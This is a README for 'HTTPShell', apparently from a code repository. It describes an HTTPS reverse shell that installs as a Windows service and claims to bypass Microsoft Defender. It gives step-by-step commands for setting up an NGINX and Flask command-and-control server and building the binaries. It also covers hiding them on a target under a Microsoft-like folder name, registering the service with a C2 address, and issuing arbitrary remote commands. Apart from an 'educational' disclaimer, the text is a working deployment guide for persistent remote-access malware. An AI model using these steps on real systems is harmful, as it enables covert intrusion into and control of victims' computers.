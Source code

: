 # HTTPShell
HTTPS Reverse shell. Installed as a service on Windows. Bypasses Defender as of 01/15/2025.

Tested on Windows 10 Pro with 01/15/25 update.

FOR EDUCATIONAL AND RESEARCH PURPOSES ONLY! 

Requirements and preperation:
------------------
1. NGINX on the host: https://nginx.org/en/linux_packages.html 
2. python3 and venv on the host: https://virtualenv.pypa.io/en/latest/installation.html 
3. Back up the existing nginx.conf file.
4. Move the nginx.conf file from this repo into /etc/nginx/nginx.conf.
5. Create a key and certificate:
It's generally recommended to avoid self-signed certificates. Only do this for using in a test environment.
```
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:4096 -nodes -sha256
```
6. Place the pem file in /etc/nginx/cert/server.pem.
7. Create a virtual environment for the C2 server:
```
mkdir controlServer
python3 -m venv controlServer
cd controlServer
source bin/activate
pip3 install colorama flask
flask run
```
8. Run the nginx server:
```
service nginx start
```
9. Build docker container with dockerfile (dockerfile must be in current directory):
```
docker build .
```
10. Enter the container (find it with "docker ps -a"; should be at the top of the list):
```
docker exec -ti [container_name] /bin/bash
```
11. Exfiltrate the compiled binaries located in project directorys "InstallService" and "ServiceBinary" target/x86_64-pc-windows-gnu/debug/. I'll use
```
python3 -m http.server 80
```
then wget from host. You can create another container with "docker run" and mount folders. The HTTP server with python is my preferred method. Resulting binaries should be:
```
windows_service_wrapper.exe
windows_Win32_Temp.dll
windows_Win32_Temp.exe
```

Creating the service on your target and running:
--------
This is a generic method. Use your own loaders/stagers to get the binaries on the host and run these commands.

1. Create the directory (this can be changed in the source code):
```
mkdir C:\programdata\MicrosoftW
```
2. Move the binaries and DLL into this directory. Make sure "windows_service_wrapper.exe" is renamed to "[service Binary Name]" below in the next step.
3. As Administrator or with privileges allowing creation of services (Server Operators can start/stop service. Can not create them):
```
C:\programdata\MicrosoftW\windows_Win32_Temp.exe [C2 IP] [C2 Port; recommend 443] [service Binary Name] [service Binary Name] [desired timeout in seconds]
```
Example:
```
C:\programdata\MicrosoftW\windows_Win32_Temp.exe 172.16.0.5 443 myService myService 60
```
"service Binary Name" must be the same. Feel free to edit the source for yourself if you want to change this behavior.

4. Start the service (reboot target or use Administrator/Server Operator):
```
sc.exe start [service Binary Name]

OR with powershell

Start-Service [service Binary Name]
```

You should see a prompt in the flask server terminal. It expects the following options:
```
"Enter initialization option: "

Enter "1" to begin typing arbitrary OS commands such as "dir" or "powershell Get-Service".
Enter "2" to end the session and tell the service to "sleep". It will sleep in seconds equal to what you put in the command line arguments above. So 60 seconds if using the example. After the time expires, the service will attempt to reconnect to your server.
```

When entering "1" to get the command, you should see the following:
```
Enter command: 
```

You can also enter "2" in this "Enter command: " state that will sleep like explained above.
